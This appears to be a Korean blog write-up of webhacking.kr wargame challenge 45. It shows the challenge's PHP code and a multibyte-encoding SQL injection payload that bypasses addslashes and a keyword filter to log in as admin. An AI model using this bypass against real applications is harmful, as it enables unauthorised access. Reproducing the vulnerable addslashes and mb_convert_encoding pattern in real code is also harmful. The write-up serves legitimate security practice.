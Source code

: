 ```yaml
---
title: "[webhacking.kr] 45번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "45번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 45번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152755575-57026a88-2193-49dd-b9b5-5ff03a78f7a5.png)


  ```php
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']);
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['id'])) exit();
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['pw'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall45 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      echo "hi {$result['id']}";
      if($result['id'] == "admin") solve(45);
    }
    else echo("Wrong");
  }
?>
  ```


# 문제 풀이
  다음의 sql 문을 인젝션 하여 admin이 나오도록 하면 됩니다.

  ```sql
select id from chall45 where id='{}' and pw=md5('%aa') or id like 0x61646d696e-- ')
  ```

  이번 문제는 addslashes() 함수와 mb_convert_encoding 함수가 같이 쓰이면서 multibyte encoding을 통해서 addslashes함수를 우회할 수 있습니다.

  mb_convert_encoding이 'id'에 쓰였기 때문에 공격지점은 id로 하고, 다음과 같이 injection을 시킬 페이로드 초안을 작성합니다.

  ```sql
  id = %aa' or id='admin'#
  ```

  이제 위의 초안에서 필터링 되는 문자열들을 고려하여 우회하여 줍니다.

  - ```=``` : like 사용으로 우회
  - ```admin``` : 0x61646d696e 로 우회
  
  따라서 다음과 같이 변형시켜서 injection을 시도합니다.

  ```sql
  %aa' or id like 0x61646d696e#
  ```

  위의 값을 인코딩하여 입력하면 다음과 같이 문제가 풀립니다.

  ![image](https://user-images.githubusercontent.com/33647663/152758302-7d3bd5f8-0408-4dfd-8794-a91be9d3321c.png)


 